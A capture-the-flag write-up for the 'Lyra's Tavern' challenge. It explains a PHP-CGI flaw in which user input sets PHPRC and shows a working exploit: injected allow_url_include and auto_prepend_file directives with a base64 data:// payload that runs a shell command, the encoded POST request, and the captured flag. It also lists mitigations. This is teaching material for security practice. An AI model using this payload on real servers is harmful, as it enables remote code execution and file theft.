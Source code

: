 Write-Up for the Exploit Script:

# Lyra's Tavern Exploit Explanation

## Vulnerability Overview

The Lyra's Tavern application contains a critical vulnerability in the `app.cgi` script that allows an attacker to:

1. Override PHP configuration settings by controlling the PHPRC environment variable
2. Execute arbitrary PHP code via the `auto_prepend_file` directive
3. Read sensitive files from the server, including the flag file

## How the Vulnerability Works

1. The `app.cgi` script accepts a `PHPRC` parameter from user input:
   ```php
   $phprc = isset($_REQUEST['PHPRC']) ? $_REQUEST['PHPRC'] : null;
   ```

2. It then sets this as an environment variable that controls PHP's configuration:
   ```php
   putenv("PHPRC=" . $phprc);
   ```

3. By setting `PHPRC=/dev/fd/0`, we can make PHP read its configuration from standard input
   - `/dev/fd/0` is a special file that corresponds to stdin

4. The script also accepts a `data` parameter that gets passed to PHP via stdin:
   ```php
   $cmd = "printf \"%b\" " . escapeshellarg($data);
   $cmd = $cmd . " | php /www/application/config.php";
   ```

5. We can inject PHP configuration directives through this `data` parameter:
   - `allow_url_include=1` - Enables inclusion of remote files via URL
   - `auto_prepend_file=data://...` - Makes PHP execute our code before any script

## The Exploit Step by Step

1. **Create a PHP payload** that will read the flag file:
   ```php
   <?php system("cat /flag.txt"); ?>
   ```

2. **Encode the payload as a base64 data URL**:
   ```
   data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWcudHh0Iik7ID8+
   ```

3. **Format the request** with:
   - URL: `http://<target>/cgi-bin/app.cgi?PHPRC=/dev/fd/0`
   - POST data: `data=allow_url_include%3D1%0Aauto_prepend_file%3D%22data%3A%2F%2Ftext%2Fplain%3Bbase64%2CPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWcudHh0Iik7ID8%2B%22`

4. When this request is processed:
   - PHP reads its configuration from our provided data
   - The `auto_prepend_file` directive makes it execute our payload
   - Our payload runs `cat /flag.txt` and outputs the flag
  
```
HTB{N0W_Y0U_S33_M3_N0W_Y0U_D0NT!@_672eda5ab455a16bb2248bba717144f3}
```

## Why This Works

The vulnerability exists because:

1. The application allows user control of the `PHPRC` environment variable
2. It then executes PHP with this configuration
3. The `/dev/fd/0` trick allows us to supply both the configuration and the execution data in a single request
4. PHP's `auto_prepend_file` directive lets us execute code before any script runs

## Mitigation

To prevent this vulnerability:

1. Never allow users to control the `PHPRC` environment variable
2. Use proper input validation for all user-supplied data
3. Disable dangerous PHP directives like `allow_url_include`
4. Run PHP with restricted permissions
5. Implement proper filesystem access controls

## Write-Up Credit: binchickens69 ```https://ctf.hackthebox.com/user/profile/605069```